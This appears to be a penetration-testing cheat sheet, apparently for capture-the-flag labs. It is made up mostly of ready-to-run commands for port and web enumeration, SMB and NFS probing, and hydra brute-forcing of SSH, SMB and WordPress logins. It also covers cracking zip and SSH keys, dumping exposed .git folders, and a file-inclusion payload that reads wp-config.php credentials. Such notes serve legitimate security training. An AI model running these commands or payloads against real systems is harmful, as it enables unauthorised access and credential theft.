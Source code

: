 # Resources

* GTFOBins - https://gtfobins.github.io/
* Payloads All The Things - https://github.com/swisskyrepo/PayloadsAllTheThings


## Enumerations 

### Basic Scan

* Agressive scan - Will perform OS detection and version detection
    * `nmap -A -oN nmap.txt target`
* Run vulnerabilities scripts
    * `nmap -script vuln -oN nmapVuln.txt target`
* Scann all the ports
    * `nmap -A -p- -oN nmapFull.txt target`

### Enumerate Web Site Folders

* `gobuster dir -e -u http://target/ -t30 -w /usr/share/dirb/wordlists/common.txt  | tee gobuster.txt`
* `gobuster dir -e -u http://target/ -t30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  | tee gobuster2.txt`
* `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 54 -t10 "target/FUZZ"`

### Find SubDomains
* `wfuzz -c -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -t30 --hw 290 -H "Host:FUZZ.somedomain.com" "http://somedomain.com/"`

### Enumerate SMB
* `enum4linux -a IP | tee enum4linux.txt`
* `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmapSamba.txt IP`
* `smbmap -H IP`
* `smbclient -U guest \\\\10.10.166.254\\IPC$`

### Enumerate Mounts
* `nmap -p PORT --script=nfs-ls,nfs-statfs,nfs-showmount -oN nmapRpc.txt IP`
    * To mount: `sudo mount -t nfs target:$SOURCE_PATH $DESTINATION_PATH`
* `showmount -e target`

### Enumerate Wordpress Site
* Get users: `wpscan --url http://target/ -e vp,u`

### Web Site Scan

* nikto: `nikto -h http://target/`


## Brute Forcing

### Brute Force Web Site Password
* `hydra -l SomeUser -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t64 -m '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect' IP http-post-form`
* Basic auth: `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -e snr -u -t64 10.10.174.130 http-head`
* Combine wordlists: `/usr/lib/hashcat-utils/combinator.bin colors.txt numbers.txt > wordlist.txt`

#### Wordpress
* `hydra -l wade -P /usr/share/wordlists/rockyou.txt -u -f -t64 -m '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:S=Location' http://target/ http-post-form -v -e snr`
* `wpscan --url http://target/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50`

### SSH
* `hydra -l root -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t32 target ssh`

### SMB
`hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -e snr target smb`

### Brute Force Zip File
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip 

### Break ssh Key Password
```sh
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
```

## Run A Python Web Server
sudo python3 -m http.server 80

## SSH Tunnel
ssh -L LOCALPORT:localhost:REMOTEPORT user@domain.com

## Dump Git From Web Site
https://github.com/internetwache/GitTools

```sh
git clone http://pwd.harder.local/.git/
./GitTools/Dumper/gitdumper.sh http://pwd.harder.local/.git/ gitFolder
./GitTools/Extractor/extractor.sh gitFolder/ gitExtracted
```

## File Inclusion

* Read a PHP file in base64 when include/require is used:
	* http://somesite.com/?VulnerableParameter=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php